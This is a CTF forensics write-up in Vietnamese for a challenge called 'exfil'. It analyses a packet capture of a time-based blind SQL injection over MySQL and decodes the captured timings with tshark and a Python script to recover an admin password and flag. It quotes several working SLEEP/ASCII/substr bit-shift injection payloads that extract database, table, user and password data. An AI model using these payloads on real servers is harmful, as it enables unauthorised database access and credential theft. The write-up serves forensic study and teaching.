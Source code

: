 # exfil
# TEAM : ζp33d_0∫_Ψ1m3
- Đầu tiên, phân tích sơ qua thì ta thấy file capture này đang mô phỏng lại quá trình Time Based Blind SQL Injection lên server thông qua protocol mysql
- Filter "mysql" ta sẽ thấy được hàng loạt các câu lệnh mysql injection được attacker gửi lên server
![1](1.png)

- Xét đoạn mysql sau:
![2](2.png)
```mysql
	SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 7 & 1) * 3)
```
- Xử lý luồng thực thi từ trong ra ngoài thì ta sẽ có:
	- SELECT group_concat(database_name) FROM mysql.innodb_table_stats
group_concat(database_name) lấy tất cả record của Field database_name từ bảng mysql.innodb_table_stats (bảng này chứa tên các bảng được khởi tạo).
	- substr(string,1,1) : lấy kí tự thứ 1 của string,ở đây attacker tăng dần index lên để dò vị trí các kí tự
	- ASCII (char): chuyển kí tự sang mã ASCII
	![ascii](ASCII.png)
	- ">> 7 & 1" đoạn này shift right 7, xong rồi and với 1
	- Nếu kết quả trả về từ substr() là NUL thì sẽ trả về ASCII(NUL) = 0, do đó 0 >> 7 = 0; 0 & 1 = 0
	- Mình lấy ví dụ 3 gói tin delay khoảng 3 (s), attacker dùng để brute database_name
	```mysql
		SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 6 & 1) * 3)

		SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 5 & 1) * 3)

		SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 2 & 1) * 3)

			97 >> 6  & 1 == 1 ==> SLEEP(3)
			97 >> 5  & 1 == 1 ==> SLEEP(3)
			97 >> 2  & 1 == 1 ==> SLEEP(3)

		Mã ASCII(97) = 'a' ==> chữ cái đầu tiên của database_name ở query trên là a
	```
		

- Vậy chỉ cần dựa vào thời gian delay giữa các cặp gói tin request/response attacker (trong TH đang xét khoảng 2-3s) có thể dễ dàng bruteforce được database_name.

- Ta tiếp tục xét đoạn mysql sau:
![3](3.png)

	```mysql
		SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f6d33313439), 1, 1)) >> 2 & 1) * 3)
	```
	- Sau khi đã bruteforce được database_name là 0x64625f6d33313439(db_m3149.users), attacker tiếp tục tìm những table do user khởi tạo

- Phân tích những gói tin mysql tiếp theo, ta sẽ thấy attacker đã brute thành công column user và password

```mysql
	SELECT SLEEP((SELECT ASCII(substr((SELECT user FROM db_m3149.users), 1, 1)) >> 6 & 1) * 3)
	SELECT SLEEP((SELECT ASCII(substr((SELECT password FROM db_m3149.users), 3, 1)) >> 5 & 1) * 3)
```

- Với cách tấn công như mình đã phân tích ở trên, attacker có thể lấy toàn bộ user,password từ phía server
- Nếu là người kiên nhẫn thì bạn cũng có thể tìm ra user với password và lấy được flag
- Nhưng ... mình là người chơi hệ code nên thôi code vậy
- OK, sau khi phân tích xong, việc chúng ta cần làm là xử lý dữ liệu
- Ban đầu mình filter mysql contains "db_m3149.users" để lọc ra dữ liệu cần thiết, sau đó export sang json để xử lý
nhưng có 1 vấn đề là sau khi export thì bị duplicate key (json parse sẽ reject những key trùng nhau và chỉ lấy key ở cuối)
![4](4.png)
![5](5.png)

- Mình bị stuck đoạn này khá lâu và tìm đến tshark (mình tạm gọi là phiên bản terminal của Wireshark)

```sh
	tshark -Y "mysql contains db_m3149.users" -r capture.pcap -Tjson --no-duplicate-keys -w result.json
	segment found (oh no !!!!)
	-- TRY AGAIN --
	tshark -Y "mysql contains db_m3149.users" -r capture.pcap -Tjson --no-duplicate-keys > result.json
	(Ờ mây zing, gút chóp em)
```

- Không dài dòng nữa code thôi :v

```python
import json,re

f = open('result.json','r').read()

j = json.loads(f)

user   = []
passwd = []

for i in j:
	if(float(i['_source']['layers']['frame']['frame.time_delta']) > 2):
		temp = i['_source']['layers']['mysql'][1]['mysql.field.name'] 
		_regextemp = re.findall(', (.*), 1\)\) >>(.*)&',temp)
		if re.search('SELECT user',temp):
			user.append(_regextemp)
		else:
			passwd.append(_regextemp)

def rev(arr): # vd: arr = [6,5,2] ==> chr((1 << 6) + (1 << 5) + (1 << 2)) = 'a'
	result = 0
	for i in arr:
		result += (2 ** int(i)) # 1 << i tương đương với 2 mũ i
	return chr(result)

def Decode(msg):
	current = 1
	result = ''
	temp = []
	for arr in msg:
		if(int(arr[0][0]) == current):
			temp.append(arr[0][1])
		else:
			result += rev(temp)
			temp = [] # reset temp
			temp.append(arr[0][1])
			current+=1
		if(arr == msg[-1]): 
			result += rev(temp)

	return result


print("[+] user :", Decode(user))
print("[+] password :", Decode(passwd))
```

- result :
```sh
[+] user : admin
[+] password : HTB{b1t_sh1ft1ng_3xf1l_1s_c00l}
```